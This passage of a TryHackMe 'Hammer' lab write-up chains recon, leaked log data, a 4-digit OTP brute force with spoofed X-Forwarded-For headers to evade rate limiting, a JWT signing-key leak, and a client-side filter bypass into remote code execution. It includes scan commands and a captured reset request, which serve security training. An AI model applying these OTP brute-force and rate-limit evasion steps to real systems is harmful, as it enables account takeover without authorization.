# Hammer — Authentication Bypass to Remote Code Execution

*From Directory-Naming-Convention Leak to OTP Brute Force, Client-Side Filter Bypass, and Full RCE*

**TryHackMe Room:** Hammer &nbsp;|&nbsp; **Engagement Type:** Black-Box Web Application Assessment

---

## Task Scenario

With the Hammer machine in hand, the objective was to bypass the authentication mechanisms protecting a web dashboard and achieve Remote Code Execution (RCE) on the underlying system. The target exposed a single custom web application on a non-standard port, fronted by a login page with no self-registration and a "Forgot your password?" recovery flow. The engagement required chaining several independent weaknesses — information disclosure, a predictable OTP recovery code, rate-limit bypass, and a client-side-only command filter — to go from zero access to full command execution on the host.

### Scope and Access

| Item | Detail |
|---|---|
| Target | Single Hammer VM, deployed per-instance via "Start Lab Machine" |
| Access method | OpenVPN connection from an attacking Kali machine |
| Exposed services | SSH (22/tcp), custom PHP web application (1337/tcp) |
| Objective 1 | Bypass authentication and log in to the dashboard |
| Objective 2 | Achieve RCE and read `/home/ubuntu/flag.txt` |

---

## Summary

A full-range `rustscan` sweep found a custom PHP web application on **port 1337**. The login page's HTML source contained a developer comment describing a directory-naming convention (`hmr_DIRECTORY_NAME`), which was used to build a **custom targeted wordlist** and discover otherwise-unlinked directories (`hmr_logs`, `hmr_css`, `hmr_js`, `hmr_images`) alongside a standard `gobuster` scan that revealed `vendor/`, `composer.json`, `dashboard.php`, and `phpmyadmin/`.

The exposed `hmr_logs/error.logs` file leaked a **test account email address** (`tester@hammer.thm`) inside fabricated Apache error-log noise. The exposed `composer.json` and `vendor/` tree confirmed the application used **`firebase/php-jwt`**, foreshadowing a JWT-based dashboard session mechanism.

Submitting the leaked email to the password-reset flow produced a **4-digit numeric recovery code** with a short (~124 second) validity window and server-side rate limiting. The code space (0000–9999) was small enough to brute-force, but Burp Suite Community's single-threaded Intruder was too slow and got blocked by the rate limiter before the window expired. A custom **multithreaded Python script (`bruteforce.py`)**, combined with a **spoofed `X-Forwarded-For` header on every request** to defeat the per-request rate limiter, found the valid code well inside the time window. This allowed the password to be reset and the dashboard to be accessed, revealing the **first flag**.

The dashboard exposed a command-execution feature ("Enter command") that appeared to filter out dangerous commands, returning `Command not allowed` for commands such as `whoami` and `cat`. Inspecting the dashboard's page source revealed the command filtering logic lived entirely in **client-side JavaScript**, and that a JWT (`Authorization: Bearer ...`) was attached to each request. The JWT header contained a `kid` (Key ID) claim pointing to a local file path on the server. Running `ls` (an "allowed" command) revealed that file at the application root, and reading its contents directly yielded the **HMAC signing secret** — a classic `kid`-injection / predictable-key JWT weakness. A JWT forged with an elevated `role: admin` claim was tested as an independent escalation path.

Ultimately, JWT forgery proved unnecessary: because the command-execution request could be re-sent directly to `execute_command.php` (bypassing the browser entirely, using the browser DevTools "New Request" tool), the client-side-only filter was skipped completely, and arbitrary commands — including `cat /home/ubuntu/flag.txt` — executed successfully with full output returned, yielding the **second flag**.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| Hidden web service | Port `1337/tcp`, PHP app behind Apache 2.4.41 (Ubuntu) |
| Leaked test account | `tester@hammer.thm` |
| Reset recovery code format | 4-digit numeric OTP, ~124s validity, server-side rate limiting |
| Dashboard login flag | `{Redacted}` |
| JWT `kid` path (initial, incorrect guess) | `/var/www/mykey.key` |
| JWT `kid` path (actual) | `/var/www/html/188ade1.key` |
| JWT HMAC signing secret | `{Redacted}` |
| RCE technique | Client-side-only command filter bypassed via direct backend request |
| Flag in `/home/ubuntu/flag.txt` | `{Redacted}` |

---

## Techniques, Commands, and Walkthrough

Techniques are grouped below in the order they were applied during the engagement. Each section names the technique category, the commands/code used (and why), and the corresponding evidence captured during testing. **Only steps that produced working results are included**, and every command shown below matches the actual tool output captured in its figure.

### 1. Service Discovery — Full-Range Port Scan

**Category:** Network/Service Reconnaissance

A full all-ports sweep was run with `rustscan` to find the web application's listening port:

```bash
rustscan -b 500 -a 10.49.189.101 --top -- -sC -sV -Pn
```

**Result:** Port **1337/tcp** was found open, running the custom PHP login application.


*Figure 1 — rustscan's full-range scan uncovers the web application on port 1337.*

Browsing to `http://10.49.189.101:1337` revealed a simple Email/Password login form.


*Figure 2 — The application's login page, with an Email/Password form and a "Forgot your password?" link.*

---

### 2. Source Code Review — Directory Naming Convention Leak

**Category:** Information Disclosure — Developer Comment / Source Review

Viewing the login page's HTML source (via Firefox DevTools) revealed an HTML comment left in by a developer, describing the application's directory naming convention:

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

This single comment was the pivot point for the entire content-discovery phase — it implied that any supporting asset directory (CSS, JS, images, logs, etc.) would follow the pattern `hmr_<name>`, which is **not a standard convention** and would not appear in off-the-shelf wordlists.


*Figure 3 — Browser DevTools Network/Source view of the login page, showing the `hmr_DIRECTORY_NAME` developer comment and the referenced `/hmr_css/bootstrap.min.css` stylesheet.*

The "Forgot your password?" link pointed to `reset_password.php`, which rendered a simple Email-only submission form:


*Figure 4 — The password reset entry point, taking only an email address.*

---

### 3. Content Discovery — Standard and Custom-Targeted Brute Force

**Category:** Web Content Discovery / Directory Brute Forcing

A standard `gobuster` scan using a common wordlist was run first to map the general application surface:

```bash
gobuster dir -u http://10.49.189.101:1337 -w /usr/share/wordlists/dirb/common.txt -x php,html,json,bak
```

**Result:** Found `composer.json`, `config.php` (empty), `dashboard.php` (redirecting, confirming session-gated access), `index.php`, a `javascript/` folder, `phpmyadmin/`, `server-status`, and critically, an exposed `vendor/` directory (PHP dependency folder — should never be web-accessible).


*Figure 5 — Standard gobuster scan surfacing `vendor/`, `dashboard.php`, `phpmyadmin/`, and `composer.json`.*

A second, **custom-targeted** `gobuster` run was then built directly from the `hmr_` naming-convention hint found in Section 2. Rather than writing a wordlist to disk, `gobuster`'s `-p` (pattern) flag was fed a process substitution that prefixed every word in the common wordlist with `hmr_` on the fly:

```bash
gobuster dir -u http://10.49.189.101:1337/ -w /usr/share/wordlists/dirb/common.txt \
  -p <(sed 's/^/hmr_/' /usr/share/wordlists/dirb/common.txt)
```

**Result:** This custom pattern found four otherwise-unlinked asset directories: `hmr_css/`, `hmr_images/`, `hmr_js/`, and — most importantly — **`hmr_logs/`**.


*Figure 6 — Custom gobuster scan, built from the leaked naming convention, discovers `hmr_logs/`, `hmr_css/`, `hmr_images/`, and `hmr_js/`.*

> **Why this mattered:** a generic wordlist alone would never have found `hmr_logs/`, since it does not match any common directory-naming pattern. Reading the application's own source code comments first, and feeding that insight back into the brute-force pattern, is what surfaced this directory.

---

### 4. Information Disclosure — Exposed Log File and Dependency Manifest

**Category:** Sensitive File Exposure

The `hmr_logs/` directory had **directory listing enabled**. Browsing to it directly exposed a single log file:

```
http://10.49.189.101:1337/hmr_logs/
```


*Figure 7 — Apache directory listing of `hmr_logs/`, exposing `error.logs`.*

Opening `error.logs` in the browser revealed fabricated Apache error-log entries that, embedded among generic `authz_core` and `core:error` noise, leaked a usable **test account email address**:

```
http://10.49.189.101:1337/hmr_logs/error.logs
```

**Relevant line:**
```
[authz_core:error] ... user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
```


*Figure 8 — hmr_logs/error.logs, planted Apache-style log noise leaking the `tester@hammer.thm` test account.*

> **Note:** several paths referenced inside this log file (`/admin-login`, `/restricted-area`, `/locked-down`) were red herrings — all returned 404 when requested directly and were not part of the working attack chain.

Separately, `composer.json` (found in Section 3) was opened directly in the browser, confirming a single hard dependency:

```
http://10.49.189.101:1337/composer.json
```

```json
{
  "require": {
    "firebase/php-jwt": "^6.10"
  }
}
```


*Figure 9 — composer.json confirming the application depends on firebase/php-jwt — a strong signal that dashboard sessions use JWTs.*

Because `vendor/` was also web-accessible (directory listing enabled), the exact installed version and metadata could be confirmed by browsing to the Composer manifest directly:

```
http://10.49.189.101:1337/vendor/composer/installed.json
```


*Figure 10 — installed.json confirming `firebase/php-jwt` v6.10.0, with full package metadata.*


*Figure 11 — Directory listing of the installed php-jwt library source.*


*Figure 12 — Top-level `/vendor` directory listing, confirming the exposed Composer dependency tree.*

> **Why this mattered:** this early confirmation that JWTs were in play (well before the dashboard was even reached) meant the eventual `Authorization: Bearer` token seen on the dashboard was immediately recognisable and its `kid` header claim stood out as worth investigating.

---

### 5. Password Reset Flow — Predictable OTP Discovery

**Category:** Authentication — Password Reset Mechanism Analysis

Before brute-forcing anything, the reset flow was walked through manually with Burp Suite in the path to observe its exact behaviour. No JWT or session cookie of interest existed pre-authentication — only a standard `PHPSESSID`.


*Figure 13 — Browser Storage/Cookies panel on the login page, showing only a `PHPSESSID` cookie prior to any reset attempt.*

Submitting the leaked email address to `reset_password.php` was captured in Burp Suite:

```
POST /reset_password.php HTTP/1.1
Host: 10.49.189.101:1337
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<session>

email=tester%40hammer.thm
```

**Result:** `HTTP/1.1 302 Found`, redirecting back to `reset_password.php` — and critically, the response carried a custom header: `Rate-Limit-Pending: 8`, revealing a rate-limiting mechanism was already active on this endpoint.


*Figure 14 — Burp Repeater showing the reset-password POST request and its 302 response, including the `Rate-Limit-Pending` header.*

Following the redirect in-browser landed on an **"Enter Recovery Code"** page, requiring a **4-digit numeric code** within a visible countdown (~124 seconds in this capture):


*Figure 15 — The code-entry page with its countdown timer, and the `PHPSESSID` cookie tied to this reset session.*

The page's embedded JavaScript also revealed a hidden form field (`id="s"`) tracking the remaining countdown value, submitted alongside the code on every attempt:

```html
<input type="hidden" class="form-control" id="s" name="s" required>
```

The form posts the code as `recovery_code`, for example: `recovery_code=0000&s=5`.

> **Key observation:** a 4-digit numeric code gives only 10,000 possible values (`0000`–`9999`) — small enough to brute-force within the validity window, provided the rate limiter could be defeated.

---

### 6. Credential Attack — OTP Brute Force with Burp Intruder (Too Slow)

**Category:** Authentication — Brute Force / Rate-Limit Analysis

The first brute-force attempt used Burp Suite Community's Intruder, following a classic predictable-token Sniper attack: the `recovery_code` parameter was marked as the single payload position, and a full `0000`–`9999` numeric list (zero-padded) was loaded as a Simple List payload.

